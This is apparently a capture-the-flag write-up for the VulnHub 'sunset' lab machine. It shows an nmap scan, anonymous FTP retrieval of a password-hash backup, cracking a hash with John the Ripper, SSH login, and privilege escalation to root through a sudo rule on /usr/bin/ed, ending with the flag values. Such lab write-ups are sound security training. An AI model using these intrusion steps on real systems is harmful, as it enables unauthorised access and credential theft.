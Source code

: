 sunset

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Anonymous FTP
[+] John The Ripper Cracking password
[+] Privilege Escalation/Lateral Movement by abusing SUDO rights - /usr/bin/ed
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Nmap scan results
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.109
Host is up (0.00026s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     pyftpdlib 1.5.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 root     root         1062 Jul 29 00:00 backup
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.56.109:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 71:bd:fa:c5:8c:88:7c:22:14:c4:20:03:32:36:05:d6 (RSA)
|   256 35:92:8e:16:43:0c:39:88:8e:83:0d:e2:2c:a4:65:91 (ECDSA)
|_  256 45:c5:40:14:49:cf:80:3c:41:4f:bb:22:6c:80:1e:fe (ED25519)
MAC Address: 08:00:27:22:45:A1 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.26 ms 192.168.56.109

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.63 seconds
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Browsing to ftp://192.168.56.109 ftp we get a backup file with credentials

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
office:$6$$9ZYTy.VI0M7cG9tVcPl.QZZi2XHOUZ9hLsiCr/avWTajSPHqws7.75I9ZjP4HwLN3Gvio5To4gjBdeDGzhq.X.                                                                                                                  
datacenter:$6$$3QW/J4OlV3naFDbhuksxRXLrkR6iKo4gh.Zx1RfZC2OINKMiJ/6Ffyl33OFtBvCI7S4N1b8vlDylF2hG2N0NN/                                                                                                              
sky:$6$$Ny8IwgIPYq5pHGZqyIXmoVRRmWydH7u2JbaTo.H2kNG7hFtR.pZb94.HjeTK1MLyBxw8PUeyzJszcwfH0qepG0                                                                                                                     
sunset:$6$406THujdibTNu./R$NzquK0QRsbAUUSrHcpR2QrrlU3fA/SJo7sPDPbP3xcCR/lpbgMXS67Y27KtgLZAcJq9KZpEKEqBHFLzFSZ9bo/
space:$6$$4NccGQWPfiyfGKHgyhJBgiadOlP/FM4.Qwl1yIWP28ABx.YuOsiRaiKKU.4A1HKs9XLXtq8qFuC3W6SCE4Ltx/ 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Trying to crack the password with john. First we try to get the password for user sunset. 

echo ‘sunset:$6$406THujdibTNu./R$NzquK0QRsbAUUSrHcpR2QrrlU3fA/SJo7sPDPbP3xcCR/lpbgMXS67Y27KtgLZAcJq9KZpEKEqBHFLzFSZ9bo/
’ > passfile

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/sunset# john passfile 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Wordlist
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 3 candidates buffered for the current salt, minimum 8
needed for performance.
Warning: Only 7 candidates buffered for the current salt, minimum 8
needed for performance.
Warning: Only 3 candidates buffered for the current salt, minimum 8
needed for performance.
Warning: Only 4 candidates buffered for the current salt, minimum 8
needed for performance.
Warning: Only 5 candidates buffered for the current salt, minimum 8
needed for performance.
Warning: Only 4 candidates buffered for the current salt, minimum 8
needed for performance.
Warning: Only 6 candidates buffered for the current salt, minimum 8
needed for performance.
Warning: Only 7 candidates buffered for the current salt, minimum 8
needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
Proceeding with incremental:ASCII
cheer14          (sunset)
1g 0:00:02:22 DONE 3/3 (2019-10-03 01:12) 0.007031g/s 2277p/s 2277c/s 2277C/s secrina..cariell
Use the "--show" option to display all of the cracked passwords reliably
Session completed

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We are able to login with sunset: cheer14

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# ssh sunset@192.168.56.109
sunset@192.168.56.109's password: 
Linux sunset 4.19.0-5-amd64 #1 SMP Debian 4.19.37-5+deb10u1 (2019-07-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jul 28 20:52:38 2019 from 192.168.1.182
sunset@sunset:~$ 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Getting root
Sunset is running with sudo -l privileges

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sunset@sunset:~$ sudo -l
Matching Defaults entries for sunset on sunset:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sunset may run the following commands on sunset:
    (root) NOPASSWD: /usr/bin/ed
sunset@sunset:~$ sudo /usr/bin/ed
!/bin/bash
root@sunset:/home/sunset#
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Getting the Flag

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@sunset:/home/sunset# cat /root/flag.txt 
25d7ce0ee3cbf71efbac61f85d0c14fe
root@sunset:/home/sunset# cat user.txt
5b5b8e9b01ef27a1cc0a2d5fa87d7190

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

